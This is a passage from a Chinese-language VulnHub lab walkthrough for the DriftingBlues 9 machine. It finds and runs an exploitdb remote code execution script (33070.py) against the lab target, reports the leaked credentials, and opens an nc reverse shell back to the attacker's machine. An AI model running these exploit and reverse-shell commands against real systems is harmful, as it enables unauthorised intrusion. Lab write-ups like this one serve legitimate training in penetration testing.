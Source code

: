 访问一圈扫描到的目录，没发现有什么信息，使用`searchsploit`测试有无对应版本的历史漏洞

```shell
searchsploit apphp
```

![](D:\stu\vulnhub\DriftingBlues靶场\pic-9\7.jpg)

有一个远程代码执行的`py`脚本，尝试使用该脚本进行测试，注意，这里需要的是`python2`的环境

```shell
locate 33070.py
cp /usr/share/exploitdb/exploits/php/webapps/33070.py ./ 
chmod +x 33070.py

python2 33070.py http://192.168.1.66/index.php
```

# 漏洞利用

该脚本首先会进行测试，如`phpinfo`信息等，用法

```shell
Usage: python 33070.py http://target/blog/index.php
```

执行脚本后发现测试出一个`php`文件中的信息，这个脚本直接通过浏览器访问，是没有任何信息，但是这里就可以发现

用户名`clapton`和密码`yaraklitepe`

![](D:\stu\vulnhub\DriftingBlues靶场\pic-9\8.jpg)

测试命令是否能被执行，发现确实可以

![](D:\stu\vulnhub\DriftingBlues靶场\pic-9\9.jpg)

# 靶机内信息收集

查看靶机内的用户

![](D:\stu\vulnhub\DriftingBlues靶场\pic-9\10.jpg)

为了后续方便，还是获取一个终端为好，不过这里只是命令执行，所以需要进行反弹shell。

我这里是测试发现直接使用`bash`反弹不成功，然后使用的`nc`，当然反弹的方法很多，`https://forum.ywhack.com/shell.php`

```shell
#kali开启监听
nc -lvvp 9999

#靶机把bash反弹
nc -e /bin/bash 192.168.1.16 9999
```

![](D:\stu\vulnhub\DriftingBlues靶场\pic-9\11.jpg)

